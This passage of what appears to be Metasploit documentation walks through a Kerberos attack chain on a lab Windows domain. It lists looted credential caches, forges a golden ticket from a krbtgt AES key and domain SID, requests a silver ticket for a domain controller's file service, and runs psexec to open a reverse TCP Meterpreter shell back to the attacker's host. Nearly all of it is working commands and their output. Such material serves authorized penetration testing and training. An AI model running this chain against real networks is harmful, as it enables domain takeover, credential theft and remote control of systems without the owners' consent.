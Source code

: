 ```msf
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: servicea          /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_667626.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_757041.bin
```

TGS using a previously forged golden ticket:

```
# Forge a golden ticket
msf6 auxiliary(admin/kerberos/forge_ticket) > run action=FORGE_GOLDEN aes_key=dac659cec15c80bb2bc8b26cdd3f29076cff84da7ab7ec6cf9dfc2cafa33e087 domain_sid=S-1-5-21-2771926996-166873999-4256077803 domain=dev.demo.local spn=krbtgt/DEV.DEMO.LOCAL user=Administrator

[*] TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230309120450_default_unknown_mit.kerberos.cca_940462.bin
[*] Auxiliary module execution completed


# Request a silver ticket:

msf6 auxiliary(admin/kerberos/get_ticket) > run action=GET_TGS rhosts=10.10.11.5 Krb5Ccname=/Users/user/.msf4/loot/20230309120450_default_unknown_mit.kerberos.cca_940462.bin username=Administrator domain=dev.demo.local spn=cifs/dc02.dev.demo.local
[*] Running module against 10.10.11.5

[*] 10.10.11.5:88 - Using cached credential for krbtgt/DEV.DEMO.LOCAL@DEV.DEMO.LOCAL Administrator@DEV.DEMO.LOCAL
[*] 10.10.11.5:88 - Getting TGS for Administrator@dev.demo.local (SPN: cifs/dc02.dev.demo.local)
[+] 10.10.11.5:88 - Received a valid TGS-Response
[*] 10.10.11.5:88 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230309120802_default_10.10.11.5_mit.kerberos.cca_352530.bin
[+] 10.10.11.5:88 - Received a valid delegation TGS-Response
[*] Auxiliary module execution completed

# Use psexec:

msf6 exploit(windows/smb/psexec) > run rhost=10.10.11.5 smbdomain=dev.demo.local username=Administrator smb::auth=kerberos smb::krb5ccname=/Users/user/.msf4/loot/20230309120802_default_10.10.11.5_mit.kerberos.cca_352530.bin smb::rhostname=dc02.dev.demo.local domaincontrollerrhost=10.10.11.5 lhost=192.168.123.1

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 10.10.11.5:445 - Connecting to the server...
[*] 10.10.11.5:445 - Authenticating to 10.10.11.5:445|dev.demo.local as user 'Administrator'...
[*] 10.10.11.5:445 - Loaded a credential from ticket file: /Users/user/.msf4/loot/20230309120802_default_10.10.11.5_mit.kerberos.cca_352530.bin
[*] 10.10.11.5:445 - Selecting PowerShell target
[*] 10.10.11.5:445 - Executing the payload...
[+] 10.10.11.5:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 10.10.11.5

[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 10.10.11.5:60625) at 2023-03-09 12:08:49 +0000
meterpreter >
```
